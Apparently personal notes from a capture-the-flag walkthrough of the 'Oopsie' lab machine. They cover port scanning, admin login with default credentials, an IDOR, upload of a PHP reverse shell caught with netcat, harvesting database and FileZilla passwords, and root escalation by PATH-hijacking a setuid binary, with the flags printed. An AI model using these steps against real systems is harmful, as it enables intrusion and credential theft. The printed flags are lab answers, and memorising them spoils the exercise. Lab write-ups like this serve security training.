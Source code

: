 inet 10.10.14.69  netmask 255.255.254.0
inet6 fe80::d484:44d2:fd97:c02c

# Oopsie

sudo nmap -sC -sV -A 10.10.10.28

Nmap scan report for 10.10.10.28
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp   open     http          Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
3268/tcp filtered globalcatLDAP
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

gobuster dir -x "php, css, js, html, txt, xml, json" -u "http://10.10.10.28" -w "/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt"

find index.php, uploads/ to infer some certain files may onload

nikto finds cdn-cgi/login as a CGI directory

username: admin
password: MEGACORP_4dm1n!!

http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id="X"
find accounts
Account ID: 86575
Name: super admin
Email: superadmin@megacorp.com

upload [reverse shell php](https://github.com/pentestmonkey/php-reverse-shell) to server within super admin

use nc -lvnp port to listen reverse shell file to connect
as http://10.10.10.28/uploads/revshell.php

whoami www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)

user.txt
f2c74ee8db7983851ab2a96a44eb7981

get a better (interactive) bash use
> /usr/bin/script -qc /bin/bash /dev/null

## script help
-a, --append                  append the output
-c, --command <command>       run command rather than interactive shell
-e, --return                  return exit code of the child process
-f, --flush                   run flush after each write
    --force                   use output file even when it is a link
-q, --quiet                   be quiet
-t[<file>], --timing[=<file>] output timing data to stderr or to FILE
-h, --help                    display this help
-V, --version                 display version

www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>

username: robert
password: M3g4C0rpUs3r!

because ssh port 22 has open
ssh robert@10.10.10.28

command input "id"
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
=> group contains "bugtracker"

robert@oopsie:/usr/bin$ find / -type f -group bugtracker 2> /dev/null
(2> dev/null mean discard unnecessary data message)
=> /usr/bin/bugtracker

file bugtracker
bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped

strings bugtracker
------------------
: EV Bug Tracker :
------------------
Provide Bug ID: 
---------------
cat /root/reports/
;*3$"

echo /bin/bash -P > cat in ~/tmp (echo /bin/sh > cat)
chmod +x cat (switch to local tmp file 'cat')
export PATH=/home/robert/tmp:$PATH
exec bugtracker

any root privilege read file's bin root.txt
root.txt
af13b0bee69f8a877c3faf667f7beacf

## report contents
1.
Binary package hint: ev-engine-lib
Version: 3.3.3-1
Reproduce:
When loading library in firmware it seems to be crashed
What you expected to happen:
Synchronized browsing to be enabled since it is enabled for that site.
What happened instead:
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.

2.
If you connect to a site filezilla will remember the host, the username and the password (optional). The same is true for the site manager. But if a port other than 21 is used the port is saved in .config/filezilla - but the information from this file isn't downloaded again afterwards.
ProblemType: Bug
DistroRelease: Ubuntu 16.10
Package: filezilla 3.15.0.2-1ubuntu1
Uname: Linux 4.5.0-040500rc7-generic x86_64
ApportVersion: 2.20.1-0ubuntu3
Architecture: amd64
CurrentDesktop: Unity
Date: Sat May 7 16:58:57 2016
EcryptfsInUse: Yes
SourcePackage: filezilla
UpgradeStatus: No upgrade log present (probably fresh install)

3.
Hello,
When transferring files from an FTP server (TLS or not) to an SMB share, Filezilla keeps freezing which leads down to very much slower transfers ...
Looking at resources usage, the gvfs-smb process works hard (60% cpu usage on my I7)
I don't have such an issue or any slowdown when using other apps over the same SMB shares.
ProblemType: Bug
DistroRelease: Ubuntu 12.04
Package: filezilla 3.5.3-1ubuntu2
ProcVersionSignature: Ubuntu 3.2.0-25.40-generic 3.2.18
Uname: Linux 3.2.0-25-generic x86_64
NonfreeKernelModules: nvidia
ApportVersion: 2.0.1-0ubuntu8
Architecture: amd64
Date: Sun Jul 1 19:06:31 2012
EcryptfsInUse: Yes
InstallationMedia: Ubuntu 12.04 LTS "Precise Pangolin" - Alpha amd64 (20120316)
ProcEnviron:
 TERM=xterm
 PATH=(custom, user)
 LANG=fr_FR.UTF-8
 SHELL=/bin/bash
SourcePackage: filezilla
UpgradeStatus: No upgrade log present (probably fresh install)
ApportVersion: 2.13.3-0ubuntu1
Architecture: amd64
DistroRelease: Ubuntu 14.04
EcryptfsInUse: Yes
InstallationDate: Installed on 2013-02-23 (395 days ago)
InstallationMedia: Ubuntu 12.10 "Quantal Quetzal" - Release amd64 (20121017.5)
Package: gvfs
PackageArchitecture: amd64
ProcEnviron:
 LANGUAGE=fr_FR
 TERM=xterm
 PATH=(custom, no user)
 LANG=fr_FR.UTF-8
 SHELL=/bin/bash
ProcVersionSignature: Ubuntu 3.13.0-19.40-generic 3.13.6
Tags: trusty
Uname: Linux 3.13.0-19-generic x86_64
UpgradeStatus: Upgraded to trusty on 2014-03-25 (0 days ago)
UserGroups:

.config/filezilla/filezilla.xml
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>
